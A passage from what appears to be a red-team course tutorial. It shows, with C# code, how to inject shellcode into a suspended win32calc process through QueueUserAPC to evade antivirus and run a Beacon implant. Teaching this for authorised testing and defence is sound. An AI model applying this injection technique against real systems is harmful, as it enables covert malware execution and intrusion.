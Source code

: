 CreateRemoteThread is very heavily scrutinised and AVs such as Windows Defender tend to block it by default.  **QueueUserAPC** is another API that we can use to execute shellcode in a process.  There are two main ways to use it:

1.  Spawn a process in a suspended state, queue the APC on the primary thread and resume.
2.  Enumerate threads of an existing process and queue the APC on one of them.
    1.  Wait for that thread to enter an alerted state, or
    2.  Force that thread to enter an alerted state.

The first option of spawning a process is the most straight forward.

1.  Spawn a process as before, but pass the CREATE_SUSPENDED flag (documented [here](https://docs.microsoft.com/en-us/windows/win32/procthread/process-creation-flags)).  If the process fails to start, just throw an exception as we can't continue further.

```csharp
var si = new Win32.STARTUPINFO();
si.cb = Marshal.SizeOf(si);

var pa = new Win32.SECURITY_ATTRIBUTES();
pa.nLength = Marshal.SizeOf(pa);

var ta = new Win32.SECURITY_ATTRIBUTES();
ta.nLength = Marshal.SizeOf(ta);

var pi = new Win32.PROCESS_INFORMATION();

var success = Win32.CreateProcessW(
    "C:\\Windows\\System32\\win32calc.exe",
    null,
    ref ta,
    ref pa,
    false,
    0x00000004, // CREATE_SUSPENDED
    IntPtr.Zero,
    "C:\\Windows\\System32",
    ref si,
    out pi);

// If we failed to spawn the process, just bail
if (!success)
    throw new Win32Exception(Marshal.GetLastWin32Error());
```

  

2.  Fetch the shellcode and write it into the target process.

3.  Call the QueueUserAPC API.  Give it the location of the shellcode in memory and the handle to the process' primary thread.

```csharp
// Queue the APC
Win32.QueueUserAPC(
    baseAddress, // point to the shellcode location
    pi.hThread,  // primary thread of process
    0);
```

  

4.  Resume the thread.

```csharp
// Resume the thread
Win32.ResumeThread(pi.hThread);
```

You will now have a Beacon running in win32calc.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/process-injection/queueuserapc/beacon.png)